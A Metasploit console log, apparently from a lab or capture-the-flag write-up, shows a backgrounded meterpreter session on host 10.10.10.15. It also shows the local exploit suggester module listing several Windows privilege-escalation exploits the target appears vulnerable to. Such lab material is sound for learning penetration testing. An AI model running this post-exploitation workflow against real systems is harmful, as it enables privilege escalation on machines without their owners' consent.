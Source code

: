 ```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > search local_exploit

Matching Modules
================

   Name                                      Disclosure Date  Rank    Check  Description
   ----                                      ---------------  ----    -----  -----------
   post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
